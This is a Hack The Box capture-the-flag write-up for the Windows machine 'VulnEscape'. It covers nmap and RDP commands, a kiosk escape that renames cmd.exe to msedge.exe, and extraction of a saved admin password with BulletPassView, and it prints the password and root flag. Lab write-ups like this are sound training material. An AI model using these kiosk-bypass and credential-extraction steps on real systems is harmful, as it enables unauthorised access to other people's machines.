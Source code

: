 # 🧪 VulnEscape – Hack The Box

**Platform:** Hack The Box  
**Difficulty:** Easy  
**IP Address:** 10.129.234.51  
**Date Completed:** 2025-07-27  

---

## 🧭 Overview

VulnEscape is an Easy-rated Windows machine where RDP is the sole exposed service. A user named `KioskUser0` can log in via RDP with no password, but the environment is restricted by kiosk-style policies. Exploiting Microsoft Edge’s `file://` scheme allows file system access, and a trick involving renaming `cmd.exe` to `msedge.exe` leads to command execution. Further privilege escalation is achieved by extracting admin credentials from a Remote Desktop Plus profile using BulletPassView. These creds are used with `runas` to gain a full administrator PowerShell session, bypassing UAC and retrieving the root flag.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate 10000 10.129.234.51
nmap -p 3389 -sCV -oN nmapscan 10.129.234.51
```

```
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: ESCAPE
|   NetBIOS_Domain_Name: ESCAPE
|   NetBIOS_Computer_Name: ESCAPE
|   Product_Version: 10.0.19041
```

---

## 🪜 Exploitation

### ✅ RDP Access

```bash
netexec rdp 10.129.234.51 -u KioskUser0 -p ''
xfreerdp3 /v:10.129.234.51 "/u:Escape\KioskUser0" /p:""
```

This gives access to a restricted desktop environment.

### 🗂️ Kiosk Escape

- Open Microsoft Edge
- Visit: `file://C:\` to browse the file system
- Copy `cmd.exe`, rename it to `msedge.exe`, and run it
- Use that to grab `user.txt` from the desktop

---

## ⚙️ Privilege Escalation

- Inside `C:\admin\`, discover `profile.xml` used by **Remote Desktop Plus**
- Load it into RD Plus and use **BulletPassView** to extract saved password:
  ```
  Twisting3021
  ```
- Spawn admin PowerShell:

```cmd
runas /user:admin powershell
start-process powershell -verb runas
```

### 🎯 Root Flag

```
root.txt
5c38d518996a362275e756ddbab14513
```

---

## 🧠 Lessons Learned

- RDP can be a viable entry point even on “kiosk” setups
- `file://` schemes can leak valuable filesystem views
- `cmd.exe` rename bypasses shell restrictions
- Credential managers and saved RDP sessions can be abused with tools like BulletPassView

---

## 📸 Proof

![vulnescape.png](proofs/vulnescape.png)